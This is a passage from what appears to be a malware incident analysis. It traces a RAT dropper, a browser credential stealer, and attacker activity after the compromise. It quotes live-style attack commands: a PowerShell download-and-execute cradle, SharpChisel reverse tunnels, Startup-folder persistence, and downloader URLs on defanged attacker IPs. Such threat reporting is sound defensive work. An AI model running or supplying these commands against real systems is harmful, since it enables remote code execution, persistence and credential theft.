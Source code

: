 The command downloads out1.exe and saves the file in the C:\users\public\ directory. Using a UPX unpacker, we were able to extract the contents, which consists of a Python executable. We then decompiled the python executable using pyinstxtractor.py to get all of the Python bytecode files. These are then decompiled to get the original python code using easypythondecompiler.
The out1.exe RAT has the following capabilities:

Data encoding
Email parsing
File and registry copy
HTTP/S connection support
Native command line
Process and file execution

After this, the file C:\users\public\Browser64.exe is run. Browser64 is a tool that extracts credentials from the following applications:

Chrome
Chromium
Firefox
Opera
Internet Explorer
Outlook







Figure 8. Usage Example of Browser64.exe





Following the use of browser64.exe, we observed the following command being executed:
powershell.exe iex(new-object System.Net.WebClient).DownloadString('hxxp://23.94.50[.]197:444/index.jsp/deb2b1a127c472229babbb8dc2dca1c2/QPKb49mivezAdai1')
They again attempted to use SharpChisel with no success:
powershell.exe C:\programdata\SharpChisel.exe client 23.95.215[.]100:443 R:8888:127.0.0.1:9999
C:\programdata\SharpChisel.exe client 23.95.215[.]100:443 R:8888:127.0.0.1:9999
C:\programdata\SharpChisel.exe server -p 9999 --socks5
Finally, we observed a persistence mechanism being set using the following commands:
cmd.exe /c Wscript.exe "C:\Users\[REDACTED]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\news.js"
 cmd.exe /c "C:\Users\[REDACTED]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\newsblog.js"

We were able to get a copy of newsblog.js, which is a simple VBS downloader that communicates with the following URL:
hxxp://23[.]95[.]215[.]100:8008/index.jsp/7e95a3d753cc4a17793ef9513e030b49/4t2Fg7k6wWRnKgd9






Figure 9. newsblog.js




